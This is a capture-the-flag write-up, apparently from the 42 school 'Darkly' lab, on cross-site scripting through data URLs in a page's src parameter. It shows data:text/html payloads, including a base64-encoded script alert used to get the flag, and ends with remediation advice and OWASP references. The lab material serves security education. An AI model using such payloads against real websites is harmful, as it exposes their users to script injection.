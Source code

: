 # Cross Site Scripting (XSS) - Data URLs

In the first section of the home page, an image redirect to [the location](http://192.168.56.101/?page=media&src=nsa) where an `object` tag specifies the URL of NSA logotype, via `data` attribute.

The value of `data` attribute change accordingly the value GET parameter `src` in the URL.

Using special format, called [Data URLs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/Data_URLs), in `src` allow to embed small inline data in HTML document.

<details>
<summary>Embed a text file</summary>

```
data:text/html,<h1 style="font-size:75px; background-color:red">Hello World!</h1>
```
<img width="1680" alt="image" src="https://user-images.githubusercontent.com/22397481/207857428-9feaa61f-fc22-4b38-9168-dcad62fd70fa.png">
</details>

<details>
<summary>Embed an image</summary>

```
data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAGQAAABkCAYAAABw4pVUAAAAo0lEQVR42u3RAQ0AAAjDMO5fNCCDkG4SmupdZwoQIAICRECACAgQAQECBIiAABEQIAICRECACIiAABEQIAICRECACIiAABEQIAICRECACIiAABEQIAICRECACIiAABEQIAICRECACIiAABEQIAICRECACIiAABEQIAICRECACIiAABEQIAICRECACIiAABEQIAICRECACAgQIEAEBIiAABGQ7w2x48edS3GF7AAAAABJRU5ErkJggg==
```
<img width="1680" alt="image" src="https://user-images.githubusercontent.com/22397481/207856826-f0abe6b6-e29e-4c57-bf88-ef8dcb737ca0.png">
</details>

<details>
<summary>Embed a scipt</summary>

```
data:text/html,<script>alert('42 - The answer to life, the universe and everything')</script>
```
<img width="1680" alt="image" src="https://user-images.githubusercontent.com/22397481/207857154-5443b8d2-b45c-4fc0-a0e6-6b828ffcab8a.png">

</details>


Passing the script encoded in `base64` and using appropriate syntax `data:[<mediatype>][;base64],<data>` gives the flag
```sh
┌──$ [~/42/2022/darkly]
└─>  echo -n "<script>alert('42 - The answer to life, the universe and everything')</script>" | base64
PHNjcmlwdD5hbGVydCgnNDIgLSBUaGUgYW5zd2VyIHRvIGxpZmUsIHRoZSB1bml2ZXJzZSBhbmQgZXZlcnl0aGluZycpPC9zY3JpcHQ+
```
<img width="1680" alt="image" src="https://user-images.githubusercontent.com/22397481/207858953-5b451dce-3444-407a-8dd4-f92fdb4ff12e.png">

# Remediation
- **Sanitize user input** checking for malicious code (for example using [DOMPurify](https://github.com/cure53/DOMPurify))
- **Escaping user input** from XSS to ensuring it’s secure before rendering it for the end user

***
- https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
- https://owasp.org/www-community/attacks/xss/
